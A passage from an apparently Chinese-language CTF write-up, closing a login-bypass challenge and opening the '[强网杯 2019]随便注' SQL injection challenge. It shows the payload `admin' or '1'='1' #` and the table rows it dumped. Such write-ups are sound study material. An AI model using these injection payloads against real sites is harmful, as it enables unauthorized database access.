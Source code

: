但是把`#`换成`--`就不行，暂时还不知道为什么。

登录之后拿到flag

![image-20210227161238808](image-20210227161238808.png "image-20210227161238808")

## 0x02 [强网杯 2019]随便注

网页提供了一个输入框，点击提交将会发出get请求，参数为inject=\[输入的内容\]。看源码，注释里提示“sqlmap是没有灵魂的”。

我的尝试：

提交`admin' or '1'='1' #`，结果页面上显示这些东西。

```text
array(2) {
 [0]=>
 string(1) "1"
 [1]=>
 string(7) "hahahah"
}

array(2) {
 [0]=>
 string(1) "2"
 [1]=>
 string(12) "miaomiaomiao"
}

array(2) {
 [0]=>
 string(6) "114514"
 [1]=>
 string(2) "ys"
}
```
